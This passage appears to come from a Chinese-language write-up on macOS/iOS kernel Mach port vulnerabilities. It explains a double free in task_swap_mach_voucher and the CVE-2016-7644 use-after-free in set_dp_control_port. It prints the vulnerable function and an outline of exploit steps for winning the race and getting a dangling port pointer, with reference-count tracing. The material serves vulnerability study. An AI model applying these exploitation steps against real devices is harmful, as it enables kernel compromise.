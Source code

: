 task_swap_mach_voucher函数将新的端口覆盖旧的，但是不是更改引用而是直接把指针的地址更改了，从而造成新端口实际被释放了两次，从而double free。

### 3.reference处理不当

#### CVE-2016-7644

```

kern_return_t
  set_dp_control_port(
    host_priv_t host_priv,
    ipc_port_t  control_port) 
  {
          if (host_priv == HOST_PRIV_NULL)
                  return (KERN_INVALID_HOST);

    if (IP_VALID(dynamic_pager_control_port))
      ipc_port_release_send(dynamic_pager_control_port); <--竞争发生的地方

    dynamic_pager_control_port = control_port;
    return KERN_SUCCESS;
  }
  
```

多释放了一次所以存在uaf

```
//申请port
mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &p);
//在ipc系统中隐藏一个port的reference
stash_port (p) ;
//dynamic_pager_control_port获取一个port的reference
set_dp_control_port(host_priv, p) ;
// [1] 准备阶段结束
//释放task对port的send right
mach_port_deallocate (p);
//触发漏洞
race();
//释放stash_port
free_stashed_ports();
// [2] 获取port的野指针
```

​	首先申请一个端口，refer=1，right=1

​	申请stash_prot，refer=2,right=2

​	申请dp，refer=3，right=3

​	释放send right后refer=3，right=2

​	触发漏洞，refer=1，right=0

​	通过验证right是否为0，也就是是否返回notify，从而判断条件竞争是否成功。
